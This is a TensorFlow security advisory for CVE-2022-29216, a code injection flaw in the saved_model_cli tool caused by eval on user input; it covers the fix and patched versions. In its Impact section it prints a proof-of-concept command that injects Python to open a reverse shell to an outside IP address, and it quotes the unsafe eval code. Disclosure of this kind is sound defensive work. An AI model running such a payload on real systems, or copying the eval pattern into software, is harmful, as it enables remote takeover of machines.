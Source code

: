 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-060.md
## TFSA-2022-060: Code injection in `saved_model_cli`

### CVE Number
CVE-2022-29216

### Impact
TensorFlow's `saved_model_cli` tool is vulnerable to a code injection:

```
saved_model_cli run --input_exprs 'x=print("malicious code to run")' --dir ./
--tag_set serve --signature_def serving_default
```

This can be used to open a reverse shell

```
saved_model_cli run --input_exprs 'hello=exec("""\nimport socket\nimport
subprocess\ns=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\ns.connect(("10.0.2.143",33419))\nsubprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())""")'
--dir ./ --tag_set serve --signature_def serving_default
```

This is because [the fix](https://github.com/tensorflow/tensorflow/commit/8b202f08d52e8206af2bdb2112a62fafbc546ec7) for [CVE-2021-41228](https://nvd.nist.gov/vuln/detail/CVE-2021-41228) was incomplete. Under [certain code paths](https://github.com/tensorflow/tensorflow/blob/f3b9bf4c3c0597563b289c0512e98d4ce81f886e/tensorflow/python/tools/saved_model_cli.py#L566-L574) it still allows unsafe execution:

```python
def preprocess_input_exprs_arg_string(input_exprs_str, safe=True):
  # ...

  for input_raw in filter(bool, input_exprs_str.split(';')):
    # ...
    if safe:
      # ...
    else:
      # ast.literal_eval does not work with numpy expressions
      input_dict[input_key] = eval(expr)  # pylint: disable=eval-used
  return input_dict
```

This code path was maintained for compatibility reasons as we had several test cases where numpy expressions were used as arguments.

However, given that the tool is always run manually, the impact of this is still not severe. We have now removed the `safe=False` argument, so all parsing is done withough calling `eval`.

### Patches
We have patched the issue in GitHub commit [c5da7af048611aa29e9382371f0aed5018516cac](https://github.com/tensorflow/tensorflow/commit/c5da7af048611aa29e9382371f0aed5018516cac).

The fix will be included in TensorFlow 2.9.0. We will also cherrypick this commit on TensorFlow 2.8.1, TensorFlow 2.7.2, and TensorFlow 2.6.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Andey Robins from the Cybersecurity Education and Research Lab in the Department of Computer Science at the University of Wyoming.
